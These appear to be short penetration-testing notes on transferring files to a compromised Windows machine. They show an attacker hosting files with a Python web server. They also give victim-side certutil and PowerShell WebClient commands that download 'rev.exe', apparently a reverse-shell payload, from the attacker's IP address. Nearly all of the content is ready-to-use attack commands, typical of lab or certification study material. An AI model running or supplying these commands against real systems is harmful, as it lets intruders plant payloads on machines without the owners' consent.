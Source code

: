 # windows - file transfer

- Attacker machine.
```shell
python3 -m http.server 8888
```

- Victim machine using CMD.
```shell
certutil -urlcache -f http://me:8888/rev.exe rev.exe
```

- Victim machine using powershell.
```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://10.9.53.136:8888/rev.exe', 'rev.exe')
```

- Check integrity after file transfer using

```shell
md5sum file
```
